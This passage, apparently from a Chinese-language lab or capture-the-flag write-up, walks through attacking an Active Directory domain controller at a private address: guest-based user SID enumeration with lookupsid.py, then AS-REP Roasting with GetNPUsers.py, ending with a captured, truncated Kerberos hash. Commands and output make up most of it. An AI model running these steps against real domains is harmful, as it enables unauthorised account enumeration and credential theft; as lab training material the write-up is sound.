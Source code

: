```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ sudo vim /etc/hosts
192.168.205.177 confidence.com dc.confidence.com
```

# 二、用户枚举与AS-REP Roasting攻击

## 2.1 用户SID枚举

使用 lookupsid.py 工具枚举域用户：

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ lookupsid.py confidence.com/guest@192.168.205.177
...
500: CONFIDENCE\Administrator (SidTypeUser)
501: CONFIDENCE\Guest (SidTypeUser)
502: CONFIDENCE\krbtgt (SidTypeUser)
...
1104: CONFIDENCE\ca-user (SidTypeUser)
1105: CONFIDENCE\mulis (SidTypeUser)
1106: CONFIDENCE\hyh (SidTypeUser)
```

创建用户列表：

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ echo -e "Administrator\nGuest\nca-user\nmulis\nhyh" > user
```

## 2.2 AS-REP Roasting攻击

检测是否存在不需要预认证的用户：

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ GetNPUsers.py confidence.com/ -usersfile user -dc-ip 192.168.205.177 -format hashcat -outputfile hash
...
[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Guest doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User ca-user doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User hyh doesn't have UF_DONT_REQUIRE_PREAUTH set
```

成功获取到 `mulis` 用户的 AS-REP hash：

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ cat hash        
$krb5asrep$23$mulis@CONFIDENCE.COM:c79a52a80039b6d8e16a6ff1fbf65378$...
```

